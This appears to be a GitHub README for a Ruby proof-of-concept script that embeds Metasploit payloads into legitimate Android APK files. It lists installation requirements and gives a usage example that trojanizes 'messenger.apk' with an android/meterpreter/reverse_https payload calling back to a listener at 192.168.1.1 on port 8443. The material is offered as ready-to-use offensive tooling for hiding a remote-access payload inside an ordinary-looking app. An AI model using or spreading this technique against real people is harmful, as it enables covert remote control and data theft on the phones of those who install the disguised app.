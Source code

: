 # metasploit-apk-embed-payload
Embed a Metasploit Payload in an Original .Apk File
<br />
> I choose a lazy person to do a hard job. Because a lazy person will find an easy way to do it.
 
  — [Bill Gates](http://www.goodreads.com/quotes/568877-i-choose-a-lazy-person-to-do-a-hard-job)
 
**This script is a POC for injecting metasploit payloads on arbitrary APKs and Result of [How to Embed a Metasploit Payload in an Original .Apk File](http://null-byte.wonderhowto.com/how-to/embed-metasploit-payload-original-apk-file-0166901/) Lesson**
**Authored by timwr, Jack64 , Updated by [xC0d3rZ](https://xc0d3rz.github.io/whoaim)**
###Installation
```bash
 gem install colorize
``` 
###Requirements 
 
 1. Ruby (**> 1.8.7**).
 
###Warring 
Don't edit or remove **embed_tools** folder.
Don't remove or edit **tmp/*** folder until script finish Embedding 
###Usage
```bash
apk-embed-payload.rb [target.apk] [msfvenom options]
```
<br>
e.g
```bash
apk-embed-payload.rb messenger.apk -p android/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=8443
```

